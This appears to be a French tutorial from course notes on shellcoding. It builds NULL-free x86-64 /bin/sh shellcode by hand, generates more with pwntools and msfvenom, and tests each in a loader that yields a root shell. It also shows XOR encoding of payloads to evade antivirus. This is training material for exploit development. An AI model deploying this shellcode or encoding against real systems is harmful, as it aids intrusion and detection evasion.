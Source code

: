 # Outils de Shellcoding

***

## <mark style="color:red;">🧠 Outils de Shellcoding</mark>

***

### <mark style="color:blue;">🐚 Shellcode</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/bin/sh`</mark>

Avant de continuer avec les outils et ressources en ligne, essayons de **construire notre propre shellcode `/bin/sh`**. Pour cela, nous pouvons utiliser l’appel système `execve` avec le **numéro de syscall 59**, qui nous permet d’exécuter une application système :

```bash
mrroboteLiot_1@htb[/htb]$ man -s 2 execve
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

Comme on peut le voir, le syscall `execve` accepte **3 arguments**. Nous avons besoin d’exécuter `/bin/sh /bin/sh`, ce qui nous placera dans un shell `sh`. Donc, notre fonction finale sera :

```c
execve("/bin//sh", ["/bin//sh"], NULL);
```

Nous allons donc initialiser nos arguments comme suit :

* `rax` → 59 (numéro du syscall `execve`)
* `rdi` → `["/bin//sh"]` (pointeur vers le programme à exécuter)
* `rsi` → `["/bin//sh"]` (liste des arguments)
* `rdx` → `NULL` (pas de variables d’environnement)

**Note :** Nous avons ajouté un `/` supplémentaire dans `'/bin//sh'` afin que le **nombre total de caractères soit 8**, ce qui remplit un registre 64 bits. Ainsi, nous n’avons pas à nous soucier de vider le registre ou de résidus indésirables. Les `/` supplémentaires sont **ignorés sous Linux**, donc c’est une **astuce utile** utilisée en exploitation binaire pour équilibrer le nombre d’octets.

En utilisant les concepts vus précédemment pour effectuer un syscall, le code assembleur suivant exécute le syscall requis :

```nasm
global _start

section .text
_start:
    mov rax, 59         ; numéro de syscall execve
    push 0              ; NULL pour terminer la chaîne
    mov rdi, '/bin//sh' ; premier argument pour /bin/sh
    push rdi            ; empiler sur la stack
    mov rdi, rsp        ; pointeur vers '/bin//sh'
    push 0              ; NULL
    push rdi            ; deuxième argument
    mov rsi, rsp        ; pointeur vers les arguments
    mov rdx, 0          ; environnement NULL
    syscall
```

On remarque que ce code **contient des octets NULL**, donc il **ne produira pas un shellcode fonctionnel**.

***

#### <mark style="color:green;">✅ Objectif : retirer les NULLs</mark>

Essayez de **retirer tous les octets NULL** du code assembleur ci-dessus pour produire un **shellcode fonctionnel**.

We can zero-out `rdx` with `xor`, and then push it for string terminators instead of pushing `0`:Code: nasm

```nasm
_start:
    mov al, 59          ; execve syscall number
    xor rdx, rdx        ; set env to NULL
    push rdx            ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```

Une fois corrigé, exécutez **shellcoder.py** dessus pour obtenir un shellcode **sans NULL** :

```bash
mrroboteLiot_1@htb[/htb]$ python3 shellcoder.py sh
```

```
b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 octets - Aucun octet NULL
```

Essayez d’exécuter ce shellcode avec `loader.py` pour vérifier s’il fonctionne et nous donne un shell. Passons maintenant à la génération de shellcodes via des outils.

***

### <mark style="color:blue;">🧰 Shellcraft</mark>

Commençons avec **pwntools** et sa bibliothèque `shellcraft`, qui permet de **générer du shellcode pour divers appels systèmes**. Pour lister les syscalls disponibles :

```bash
mrroboteLiot_1@htb[/htb]$ pwn shellcraft -l 'amd64.linux'
```

```
...SNIP...
amd64.linux.sh
```

Nous voyons que le syscall `amd64.linux.sh` nous donne un shell comme notre shellcode précédent. Pour générer son shellcode :

```bash
mrroboteLiot_1@htb[/htb]$ pwn shellcraft amd64.linux.sh
```

```
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```

Ce shellcode est **moins optimisé** que le nôtre. On peut le tester avec `-r` :

```bash
mrroboteLiot_1@htb[/htb]$ pwn shellcraft amd64.linux.sh -r
```

```
$ whoami
root
```

On peut aussi utiliser `Python3` pour accéder aux appels avancés :

```python
>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
>>> asm(syscall).hex()
```

```
'48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'
```

Puis le tester avec `loader.py` :

```bash
python3 loader.py '48b8...0f05'
```

```
$ whoami
root
```

***

### <mark style="color:blue;">🧨 Msfvenom</mark>

Utilisons maintenant `msfvenom` pour générer du shellcode. Lister les payloads disponibles :

```bash
msfvenom -l payloads | grep 'linux/x64'
```

Exécuter un shell via `/bin/sh` :

```bash
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
```

```
Payload size: 48 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

Tester avec `loader.py` :

```bash
python3 loader.py '6a3b...0f05'
```

```
$ whoami
root
```

***

### <mark style="color:blue;">🔐 Encodage de Shellcode</mark>

On peut **encoder nos shellcodes** pour éviter la détection par antivirus ou protections. Liste des encodeurs disponibles :

```bash
msfvenom -l encoders
```

Encoder avec `x64/xor` :

```bash
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'
```

```
Payload size: 87 bytes
4831c94881e9faffffff488d05efffffff...
```

Tester :

```bash
python3 loader.py '4831c9...'
```

```
$ whoami
root
```

On peut aussi encoder plusieurs fois avec `-i` :

```bash
msfvenom -i 5 ...
```

***

### <mark style="color:blue;">🛠 Encoder son propre shellcode</mark>

Encoder un shellcode écrit manuellement :

{% code fullWidth="true" %}
```bash
python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b48...0f05'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```
{% endcode %}

***

### <mark style="color:blue;">🌐 Ressources de Shellcode</mark>

Enfin, utilisez des sites comme :

* **Shell-Storm** → [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
* **Exploit-DB** → [https://www.exploit-db.com/](https://www.exploit-db.com/)

Exemple : un shellcode `/bin/sh` de 22 octets trouvé sur Exploit DB peut être plus adapté si l’espace est limité (ex. overflow de 22 octets).

***
